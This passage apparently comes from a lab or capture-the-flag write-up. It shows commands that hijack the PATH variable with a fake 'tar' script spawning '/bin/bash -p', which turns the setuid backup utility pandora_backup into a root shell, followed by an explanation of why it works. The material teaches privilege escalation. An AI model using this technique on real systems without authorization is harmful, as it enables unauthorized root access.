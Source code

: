 To do this, we simply create our own file called tar, with whatever commands we want. 

```console
$ echo "/bin/bash -p" > tar
echo "/bin/bash -p" > tar
$ chmod +x tar
chmod +x tar
$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
$ /usr/bin/pandora_backup
/usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
bash: cannot set terminal process group (973): Inappropriate ioctl for device
bash: no job control in this shell
root@pandora:/tmp# 
```
Rooted! The reason this works is that by creating our own tar file, and adding the folder it resides in to the front of our path variable, is that when the system calls path without the absolute path, it finds the path via the path variable. It looks in each folder in the variable and calls the first file named tar it finds, which in this case was our malicious file.